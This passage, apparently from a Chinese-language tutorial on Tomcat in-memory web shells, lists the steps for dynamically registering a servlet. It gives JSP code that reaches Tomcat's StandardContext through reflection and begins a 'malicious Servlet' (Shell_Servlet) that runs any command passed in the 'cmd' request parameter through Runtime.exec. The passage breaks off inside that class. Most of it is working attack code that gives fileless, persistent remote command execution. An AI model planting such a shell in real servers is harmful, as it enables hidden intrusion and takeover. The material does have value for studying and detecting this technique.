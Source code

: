 ### 4.3.4、动态注册Servlet
通过上文的分析我们能够总结出创建`Servlet`的流程

1. 获取`StandardContext`对象
2. 编写恶意`Servlet`
3. 通过`StandardContext.createWrapper()`创建`StandardWrapper`对象
4. 设置`StandardWrapper`对象的`loadOnStartup`属性值
5. 设置`StandardWrapper`对象的`ServletName`属性值
6. 设置`StandardWrapper`对象的`ServletClass`属性值
7. 将`StandardWrapper`对象添加进`StandardContext`对象的`children`属性中
8. 通过`StandardContext.addServletMappingDecoded()`添加对应的路径映射
### 4.3.5、获取StandardContext对象
StandardContext对象获取方式多种多样
```java
<%
    Field reqF = request.getClass().getDeclaredField("request");
    reqF.setAccessible(true);
    Request req = (Request) reqF.get(request);
    StandardContext standardContext = (StandardContext) req.getContext();
%>
```
或
```java
<%
    ServletContext servletContext = request.getSession().getServletContext();
    Field appContextField = servletContext.getClass().getDeclaredField("context");
    appContextField.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) appContextField.get(servletContext);
    Field standardContextField = applicationContext.getClass().getDeclaredField("context");
    standardContextField.setAccessible(true);
    StandardContext standardContext = (StandardContext) standardContextField.get(applicationContext);
%>
```
### 4.3.6、编写恶意的Servlet
```java
<%!
 
    public class Shell_Servlet implements Servlet {
        @Override
        public void init(ServletConfig config) throws ServletException {
        }
        @Override
        public ServletConfig getServletConfig() {
            return null;
        }
        @Override
        public void service(ServletRequest req, ServletResponse res) throws ServletException, IOException {
            String cmd = req.getParameter("cmd");
            if (cmd !=null){
                try{
                    Runtime.getRuntime().exec(cmd);
                }catch (IOException e){
                    e.printStackTrace();
                }catch (NullPointerException n){
                    n.printStackTrace();
                }
            }
        }
        @Override
        public String getServletInfo() {
```
